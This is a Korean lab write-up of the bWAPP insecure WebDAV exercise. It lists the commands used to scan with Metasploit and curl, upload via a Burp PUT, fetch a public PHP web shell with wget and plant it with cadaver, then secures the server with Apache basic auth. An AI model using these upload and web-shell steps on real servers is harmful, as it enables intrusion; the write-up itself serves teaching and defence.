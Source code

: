 ```yaml
---
title: "[bWAPP] 6. Security Misconfigurations - Insecure WebDAV Configuration"
---
```


## Definition

잘못된 보안 구성

잘못되거나 과도한 보안 설정으로 발생



## Insecure WebDAV Configuration

### Object

- bWAPP에 WebDAV 기능 활성화로 디렉토리 검색 및 악의적인 파일을 업로드하는 시나리오
- PUT Method를 이용해 WebDAV에 악의적인 파일을 업로드하는 취약점을 다뤄보자

### WebDAV

- 원격적으로 웹 서버를 제어할 수 있는 HTTP Protocol의 확장 기능
- 보안설정 미흡할 시 악성 스크립트가 포함된 파일 업로드하여 시스템에 침투 우려
- 기존 파일 수정하여 악의적인 행위 우려
- PUT Method를 허용하는 몇몇 서비스에서 악성 웹셸 업로드될 우려

| Method        | 내용                                                      |
| ------------- | --------------------------------------------------------- |
| GET           | 리소스를 취득할때 사용, URL 형식으로 웹서버로 리소스 요청 |
| HEAD          | 메세지 헤더 정보만 취득할 때 사용                         |
| POST          | 내용을 Body에 포함시켜 전송                               |
| PUT           | 헤더 이외에 메세지 전송 가능 / 웹서버에 파일 전송 가능    |
| TRACE         | 요청 리소스가 수신되는 경로 확인                          |
| OPTIONS       | 서버가 지원하는 메서드를 질의하여 응답으로 받음           |
| CONNECT       | 프락시 서버와 같은 중간 서버 경유시 사용                  |
| COPY / MOVE   | 리소스 파일 복사 / 이동                                   |
| LOCK / UNLOCK | 리소스와 파일이 overwrite되는 기능 ON / OFF               |

### 난이도 : 하

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211014014739763.png" alt="image-20211014014739763" style="zoom:67%;" />

### /webdav/

[WebDAV] 클릭 시 목록 확인 가능

<img src="image-20211027003647011.png" alt="image-20211027003647011" style="zoom:80%;" />

### WebDav 사용 여부



- kali > msfdb start - 메타스플로잇 시작
- kali > msfconsole 
- msf6 > search webdav - 'webdav' 관련 exploit 코드
- msf6 > use auxiliary/scanner/http/webdav_scanner - 'webdav'의 사용 유무 체크
- msf6 auxiliary(scanner/http/webdav_scanner) > show options
- msf6 auxiliary(scanner/http/webdav_scanner) > set rhosts 비박스IP - 스캔할 대상
- msf6 auxiliary(scanner/http/webdav_scanner) > set path /webdav/ - 디렉토리 지정
- msf6 auxiliary(scanner/http/webdav_scanner) > exploit 

### 허용하는  HTTP Method 확인

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211015011438494.png" alt="image-20211015011438494" style="zoom: 50%;" />

- kali > curl -X OPTIONS http://비박스IP/webdav/ -i
- /webdav/ 디렉토리에서 사용가능한 메소드 거의 대부분이라는 것 확인

### BurpSuite

BurpSuit를 통해 /webdav/에 임의의 파일 업로드 해보자(PUT 메서드 사용)

<img src="image-20211015012004733.png" alt="image-20211015012004733" style="zoom: 57%;" />

- /webdav/ 페이지 패킷 잡음

### BurpSuite - 1

GET -> PUT으로 변경

<img src="image-20211015012959815.png" alt="image-20211015012959815" style="zoom:58%;" />

- 내용 "<h1>Eonion</h1>"인 파일 업로드하기 위해 intecept off

### BurpSuite - 2

<img src="image-20211015013128396.png" alt="image-20211015013128396" style="zoom: 80%;" />

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211015013254384.png" alt="image-20211015013254384" style="zoom:80%;" />

<img src="image-20211015013322950.png" alt="image-20211015013322950" style="zoom:104%;" />

- PUT 메서드를 통해 웹 서버에 파일 업로드 가능

### Kali

칼리를 이용해 악의적인 파일 업로드 해보자

<img src="image-20211015014551802.png" alt="image-20211015014551802" style="zoom: 65%;" />

- Kali > wget [https://raw.githubusercontent.com/Wphackedhelp/php-webshells/master/PHP%20Shell.php](https://raw.githubusercontent.com/Wphackedhelp/php-webshells/master/PHP Shell.php) - 코드 다운로드
- Kali >  cadaver http://비박스IP/webdav/ - 'Webdav' 클라이언트인 'cadaver' 사용
- dav:/webdav/ > put 'PHP Shell.php' 

### Kali - 1

<img src="image-20211015014839719.png" alt="image-20211015014839719" style="zoom: 80%;" />

- 웹 쉘을 통해 서버에 명령 수행 가능

### 대응방안 - BeeBox

아파치 설정 파일

<img src="image-20211015015554425.png" alt="image-20211015015554425" style="zoom: 69%;" />

- bee-box > sudo -s 
- bee-box > vi /etc/apache2/httpd.conf - 아파치 설정 파일
- 'Webdav' 활성화 되어있음

### BeeBox - 1

수정

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211015023134008.png" alt="image-20211015023134008" style="zoom:69%;" />

- Options IncludeNoExec : 초기 파일(index.html)이 존재하지 않을 경우 오류 창을 띄움(403에러)
- AuthType Basic : 인증 유형(Basic : 패스워드 암호화 X / Digest : 패스워드 암호화)
- AuthName [id] : 인증 시 사용할 사용자 계정
- AuthUserFile [password file] : 'password file' 경로
- Require user [id] : 해당 계정만 접근 허용

### BeeBox - 2

패스워드 파일 생성

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211015024634323.png" alt="image-20211015024634323" style="zoom:69%;" />

- bee-box > htpasswd -c [패스워드 파일] [생성 계정]
- bee-box > /etc/init.d/apache2 restart - 웹 서버 재시작

### 확인 - cadaver

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211015025027061.png" alt="image-20211015025027061" style="zoom:92%;" />

- cadaver 명령어로 위와 똑같이 접속 시 계정 정보 요구

### 확인 - curl

<img src="image-20211015025611571.png" alt="image-20211015025611571" style="zoom:58%;" />

- 위에서 HTTP 메소드를 알아내기 위해 사용했던 curl을 이용시 401 오류와 인증을 요구